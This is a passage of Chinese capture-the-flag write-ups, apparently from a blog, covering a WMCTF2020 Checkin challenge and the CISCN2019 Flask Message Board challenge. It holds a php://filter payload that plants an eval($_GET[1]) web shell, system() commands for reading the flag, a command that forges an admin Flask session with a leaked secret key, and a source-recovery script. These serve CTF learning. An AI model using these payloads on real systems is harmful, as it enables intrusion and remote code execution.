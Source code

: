 我们选择rot13绕过

```
php://filter/zlib.deflate|string.tolower|zlib.inflate|?><?php%0deval($_GET[1]);?>/resource=Cyc1e.php
```

上传的内容就会到Cycle.php中，`?1=system('ls');`，`?1=system('cat /flag_2233_elkf3ifj34ij3orf3fk4');`

参考：[wp](https://cyc1e183.github.io/2020/08/04/WMctf2020-Checkin%E5%87%BA%E9%A2%98%E6%83%B3%E6%B3%95-%E9%A2%98%E8%A7%A3/)

{{% /spoiler %}}

{{% spoiler "***[CISCN2019 总决赛 Day1 Web3]Flask Message Board  |  ssti flask-session tensorflow" %}}

flask，页面有三个输入框，还有标志性的session，Author输入框处存在SSTI，尝试获取key来伪造session

![image-20211211161219803](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211211161219803.png)

`'SECRET_KEY': '1|i|I||i1ili|IlIil11lIIl|ii|1|i|l||li|lI'`

这里伪造的时候要注意flask session cookie manager解密出来的时候把False的大写给去掉了，我们构造回去的时候应该用大写开头的

```
python3 flask_session_cookie_manager3.py encode -s '1|i|I||i1ili|IlIil11lIIl|ii|1|i|l||li|lI' -t "{'admin':True}"
```

到/admin处有文件上传点

![image-20211211161952272](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211211161952272.png)

看页面源码发现还有提示

![image-20211211162036595](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211211162036595.png)

![image-20211211162331506](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211211162331506.png)

下载/admin/model_download，得到这么个玩意

![image-20211211162228429](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211211162228429.png)

/admin/source_thanos可以直接访问

![image-20211211162359950](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211211162359950.png)

就他妈离谱，这个源码是随机显示一部分，但是显示位置固定，得搞个脚本做复原

```
import requests
url = 'http://8567734a-8c12-4f70-bfee-6f10e978f956.node3.buuoj.cn/admin/source_thanos'
r = requests.get(url)
source = r.text
for j in range(10):
    r = requests.get(url)
    for i in range(len(source)):
        if source[i].isspace():
            source = source[:i] + r.text[i] + source[i+1:]
print(source)
```
